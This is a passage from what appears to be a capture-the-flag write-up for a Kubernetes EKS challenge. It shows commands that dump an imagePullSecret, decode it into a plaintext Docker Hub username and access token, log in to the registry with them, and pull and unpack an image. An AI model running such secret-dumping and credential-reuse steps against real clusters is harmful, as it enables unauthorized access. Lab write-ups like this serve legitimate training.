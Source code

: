 ```bash
kind: Pod
metadata: {...}
spec:
  {...}
  imagePullSecrets:
  - name: registry-pull-secrets-16ae8e51
  {...}
```
Booyah! There we have it! A handy dandy `imagePullSecrets` parameter waiting just for us.
```bash
root@wiz-eks-challenge:~# k get secret registry-pull-secrets-16ae8e51 -o yaml
apiVersion: v1
data:
  .dockerconfigjson: eyJhdXRocyI6IHsiaW5kZXguZG9ja2VyLmlvL3YxLyI6IHsiYXV0aCI6ICJaV3R6WTJ4MWMzUmxjbWRoYldWek9tUmphM0pmY0dGMFgxbDBibU5XTFZJNE5XMUhOMjAwYkhJME5XbFpVV280Um5WRGJ3PT0ifX19
kind: Secret
{...}
root@wiz-eks-challenge:~# k get secret registry-pull-secrets-16ae8e51 -o json | jq -r '.data.".dockerconfigjson"' | base64 -d
{"auths": {"index.docker.io/v1/": {"auth": "ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw=="}}}
```
From `auth` string we can extract the credentials to log in to the registry:
```bash
root@wiz-eks-challenge:~# echo -n 'ZWtzY2x1c3RlcmdhbWVzOmRja3JfcGF0X1l0bmNWLVI4NW1HN200bHI0NWlZUWo4RnVDbw==' | base64 -d
eksclustergames:dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo
root@wiz-eks-challenge:~# crane auth login docker.io -u eksclustergames -p dckr_pat_YtncV-R85mG7m4lr45iYQj8FuCo
2025/09/05 19:57:55 logged in via /home/user/.docker/config.json
```
Nice! *I'm in!*

Now let's head for that image we're tasked to fetch and dissect.
```bash
root@wiz-eks-challenge:~# crane pull docker.io/eksclustergames/base_ext_image@sha256:c3c280fac41084a821ab0a32d16bd21a887141bcf1330e40adf086c0f0c97888 base_ext_image.tar.gzip
root@wiz-eks-challenge:~# ls -l
total 2104
-rw-r--r--. 1 root root 2150400 Sep  5 19:59 base_ext_image.tar.gzip
root@wiz-eks-challenge:~# tar xvzf base_ext_image.tar.gzip

gzip: stdin: not in gzip format
tar: Child returned status 1
tar: Error is not recoverable: exiting now
```
Jokes on me here -- the pulled image was not actually a gzipped tar archive, but just a tar archive consisting of several gzipped tar archives. Happens with the best of us!
```bash
root@wiz-eks-challenge:~# mv base_ext_image.tar.gzip base_ext_image.tar
root@wiz-eks-challenge:~# ls -l
total 2104
-rw-r--r--. 1 root root 2150400 Sep  5 19:59 base_ext_image.tar
root@wiz-eks-challenge:~# tar xvf base_ext_image.tar
sha256:62a84aabdaff849b4d1e976aa70ed4d4f5a8e6bed29c7a8fa25603803b72048d
90b9666d4aed1893ff122f238948dfd5e8efdcf6c444fe92371ea0f01750bf8c.tar.gz
71e23506d26b19d0d86d7ca64f9214c31a4ad9ccbff325b45be74ab2a6279e22.tar.gz
manifest.json
root@wiz-eks-challenge:~# ls -l
total 4212
-rw-r--r--. 1 root root     204 Jan  1  1970 71e23506d26b19d0d86d7ca64f9214c31a4ad9ccbff325b45be74ab2a6279e22.tar.gz
-rw-r--r--. 1 root root 2145249 Jan  1  1970 90b9666d4aed1893ff122f238948dfd5e8efdcf6c444fe92371ea0f01750bf8c.tar.gz
-rw-r--r--. 1 root root 2150400 Sep  5 19:59 base_ext_image.tar
```